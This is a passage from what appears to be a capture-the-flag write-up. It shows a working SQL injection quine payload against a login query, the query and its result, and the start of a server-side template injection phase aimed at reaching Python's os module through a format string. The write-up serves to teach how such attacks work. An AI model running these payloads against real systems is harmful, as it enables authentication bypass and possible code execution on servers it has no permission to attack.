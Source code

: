 ```python


if __name__ == "__main__":
    exploit()
```

##### lets try our code 
```bash
python py2.py
Yooo!! testttt"'!
```
##### the query in the backend will look like 
```sqlite
SELECT * FROM users WHERE username = 'testtt"\'' AND password = ' UNION SELECT CHAR(116,101,115,116,116,116,34,39), REPLACE(REPLACE(REPLACE(" UNION SELECT CHAR(116,101,115,116,116,116,34,39), REPLACE(REPLACE(REPLACE(\'$\',CHAR(39),CHAR(34)),CHAR(36),\'$\'), CHAR(92), CHAR());-- -",CHAR(39),CHAR(34)),CHAR(36)," UNION SELECT CHAR(116,101,115,116,116,116,34,39), REPLACE(REPLACE(REPLACE(\'$\',CHAR(39),CHAR(34)),CHAR(36),\'$\'), CHAR(92), CHAR());-- -"), CHAR(92), CHAR());-- -'
```
##### the query result will be like 
```python
('testtt"\'', ' UNION SELECT CHAR(116,101,115,116,116,116,34,39), REPLACE(REPLACE(REPLACE(" UNION SELECT CHAR(116,101,115,116,116,116,34,39), REPLACE(REPLACE(REPLACE(\'$\',CHAR(39),CHAR(34)),CHAR(36),\'$\'), CHAR(92), CHAR());-- -",CHAR(39),CHAR(34)),CHAR(36)," UNION SELECT CHAR(116,101,115,116,116,116,34,39), REPLACE(REPLACE(REPLACE(\'$\',CHAR(39),CHAR(34)),CHAR(36),\'$\'), CHAR(92), CHAR());-- -"), CHAR(92), CHAR());-- -')
```
#### Notice that the result from the qeury is from the quine in the password field , that is mean the first element in the result is from the sentence `UNION SELECT CHAR(116,101,115,116,116,116,34,39)` and the seconed elemnt where the `$$` was placed is the quine returning itself (the entire password paramter again)

#### So it works because the first element == username  and seconed element == password

#### Great now we control the username output !!!



### Template Injection Phase

##### Using our code we will try to find a working SSTI working payload the goal is to get the OS module 

##### after i tried a lot of SSTI payload it seems non of them work but why ?
##### the answer in the code of course  , due using format we can only access the data variable so will construct our payload based on that
```python 
f'Yooo!! {data["username"]}!'.format(data=data)
```
